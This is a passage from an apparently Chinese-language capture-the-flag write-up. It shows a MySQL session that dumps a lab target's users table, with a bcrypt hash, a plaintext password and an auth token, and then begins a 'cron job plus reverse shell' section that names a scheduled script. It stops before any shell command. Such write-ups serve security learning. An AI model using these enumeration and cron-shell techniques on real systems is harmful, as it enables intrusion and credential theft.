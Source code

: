 ```c
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| midnightcoffee     |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use midnightcoffee;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+--------------------------+
| Tables_in_midnightcoffee |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+-----------+--------------------------------------------------------------+----------------------------------+
| id | username  | password                                                     | auth_token                       |
+----+-----------+--------------------------------------------------------------+----------------------------------+
|  1 | shopadmin | $2a$12$yqH60OJyTqoPHXe1g1cGDu93me1v.wGcEEZV5rLy39stUJO.Xsjwi | NULL                             |
|  2 | tuna      | 1L0v3_TuN4_Very_Much                                         | NULL                             |
|  3 | developer | developer                                                    | 5b290480bcbaec662aa8531cbc6da4fc |
+----+-----------+--------------------------------------------------------------+----------------------------------+
3 rows in set (0.00 sec)
```

我擦，没啥用。。。

### 定时任务+反弹shell

定时任务扫到一个内容：

```apl
/home/shopadmin/execute.sh
```
